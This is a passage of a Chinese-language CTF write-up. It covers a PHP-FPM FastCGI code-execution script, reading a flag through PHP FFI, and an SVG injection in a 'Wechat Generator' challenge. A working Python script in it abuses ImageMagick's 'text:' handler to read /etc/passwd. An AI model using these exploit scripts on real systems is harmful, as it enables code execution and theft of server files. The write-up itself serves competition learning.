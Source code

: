 ```python
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
);

echo "Call: $uri\\n\\n";
var_dump($client->request($params, $code));
'''

ret = execute_php_code(code)
print(ret)
```

然后可以发现根目录的 `flag.so` 和 `flag.h`, 读取后 strings 一下就能读到 flag. 不过可以看到是与 ffi 有关的, 所以这做法应该是非预期了, 不过之后又上了个 noeasyphp 修了几个非预期解.  
最后试了下用 ffi 拿 flag,  

```php
$ffi = FFI::load("/flag.h");
var_dump($ffi);
var_dump($ffi->flag_fUn3t1on_fFi());
```

也是能读到 flag 的, 不过这方法名和文件名是怎么预期得到呢, 猜测可能需要用 ffi 的功能去直接越界读内存? 感觉预期解更有意思一点.  


## Wechat Generator

大概功能如下: 

1. 前端提交对话到后端, 后端返回生成的 svg 和对应的 id 到前端预览
2. 前端提交 id 到后端, 渲染 svg 到图片

问题出在生成, 有个功能是插入表情, 比如 `[cool]`, 会被替换为  

```xml
<image x="1240" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/cool"/>
```

显然可能存在注入, 我们输入 `[cool"><a></a><a href="]`, 就成功注入了 `<a></a>` 到 svg 里面. 这里可以想到之前空指针的一道题, imagemagick 在对 `text:/` 协议解析时, 会直接读取文件里的内容, 于是我们就能通过这个方式, 注入一个图片, 链接到 `text:/etc/passwd`, 之后就能通过后端渲染得到的图片, 得到文件内容.  

```python
import requests
import base64

sess = requests.session()

d = '''
[{"type":0,"message":"Love you!<a>asd</a>[cool\\"/><image xlink:href=\\"text:/etc/passwd\\" x='-400px' y='400px' height='1500px' width='1500px'/><a href=\\"]"},{"type":1,"message":"Me too!!!"}]
'''

res = sess.post('http://pwnable.org:5000/preview', data={'data': d})
svg = base64.b64decode(res.json()['data'][len('data:image/svg+xml;base64,'):])

with open('1.svg', 'wb') as f:
    f.write(svg)

pid = res.json()['previewid']
res = sess.post('http://pwnable.org:5000/share', data={'previewid': pid})
print(res.text)
```